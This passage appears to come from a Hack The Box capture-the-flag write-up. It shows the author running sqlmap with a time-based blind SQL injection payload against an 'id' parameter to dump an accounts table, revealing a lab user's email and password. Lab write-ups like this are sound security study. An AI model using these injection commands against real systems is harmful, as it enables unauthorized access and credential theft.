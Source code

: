     [*] ending @ 17:30:49 /2023-01-29/

I found the name of the db and tables, started another scan, but adjusted the shot.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ sqlmap -u "http://localhost:8080/?id=86969" -D soccer_db -T accounts --dump 
            ___
           __H__                                                                                                                                                                                             
     ___ ___["]_____ ___ ___  {1.6.12#stable}                                                                                                                                                                
    |_ -| . ["]     | .'| . |                                                                                                                                                                                
    |___|_  [)]_|_|_|__,|  _|                                                                                                                                                                                
          |_|V...       |_|   https://sqlmap.org                                                                                                                                                             
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 17:45:36 /2023-01-29/
    
    [17:45:37] [INFO] resuming back-end DBMS 'mysql' 
    [17:45:37] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=86969 AND (SELECT 1649 FROM (SELECT(SLEEP(5)))Pibi)
    ---
    [17:45:37] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.12
    [17:45:37] [INFO] fetching columns for table 'accounts' in database 'soccer_db'
    [17:45:37] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                          
    do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
    [17:45:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
    [...]
    [18:13:07] [WARNING] potential binary fields detected ('password'). In case of any problems you are advised to rerun table dump with '--fresh-queries --binary-fields="password"'
    [18:13:07] [INFO] recognized possible password hashes in column 'password'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
    [18:13:19] [INFO] writing hashes to a temporary file '/tmp/sqlmapj35xv7hs80624/sqlmaphashes-qrz3jvga.txt' 
    [...]
    Database: soccer_db
    Table: accounts
    [1 entry]
    +------+-------------------+-------------------------+----------+
    | id   | email             | password                | username |
    +------+-------------------+-------------------------+----------+
    | 1324 | player@player.htb | PlayerOftheMa\x81ch2022 | player   |
    +------+-------------------+-------------------------+----------+
    